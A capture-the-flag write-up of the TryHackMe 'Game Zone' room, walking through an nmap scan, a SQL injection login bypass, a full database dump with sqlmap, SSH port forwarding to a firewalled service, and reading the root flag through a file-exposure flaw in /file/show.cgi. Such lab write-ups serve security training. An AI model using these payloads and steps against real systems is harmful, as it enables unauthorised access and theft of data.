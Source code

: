 ```yaml
---
title: GameZone-writeup-THM
date: 2023-12-28 18:00:00
categories: [room, easy]
tags: [linux, sqli]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/gamezone">Game Zone</a>" 

We are going to startwith a scan:

```bash
nmap <your_ip>

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-28 10:50 EST
Nmap scan report for 10.10.108.222
Host is up (0.060s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE    SERVICE
22/tcp  open     ssh
80/tcp  open     http
259/tcp filtered esro-gen

Nmap done: 1 IP address (1 host up) scanned in 9.93 seconds
```

First of all we access the web page and see the hitman,

if you don’t know his name, just use google images.

Then we see a login page, and try using SQLi

We do this by adding `' or 1=1 — -` instead of the username

By doing this we can access the site.

Now we are going to use sqlmap to dump the entire database!

Before that we need to capture the request with burp.

You can do that just by 

- activating the proxy,
- capturing the request in the game zone portal
- copy it into a txt file,
- And put it into sqlmap like that:

```bash
sqlmap -r request.txt --dbms=mysql --dump --threads=5
```

Now that we have a username and password, I am going to use ssh.

Then we will use a tool called **ss** to investigate sockets running on a host.

If we run **ss -tulpn** it will tell us what socket connections are running

| Argument | Description |
| --- | --- |
| -t | Display TCP sockets |
| -u | Display UDP sockets |
| -l | Displays only listening sockets |
| -p | Shows the process using the socket |
| -n | Doesn't resolve service names |

We see that is running a servvice on port 10000 but is filtered by the firewall.

So we go back to our machine and run **`ssh -L 10000:localhost:10000 <username>@<ip>`**

Once we are in we can open our browser and go to localhost:1000,

here we are met with a login page.

I just use the credential that we altready have and they worked.

After that we just need to use metasploit, to search the exploit and run it using the options that he wants.

I’ve tried for long enough to make it work but I didn’t succeded, 

in the end I searched in Exploit DB and read what the exploit does, I found out that it just allows you to exeute arbitrary commands in the `/file/show.cgi` component

Viewing the hint I know that the flag is in root.txt, so I just had to do this:

```bash
http://localhost:10000/file/show.cgi/root/root.txt
```
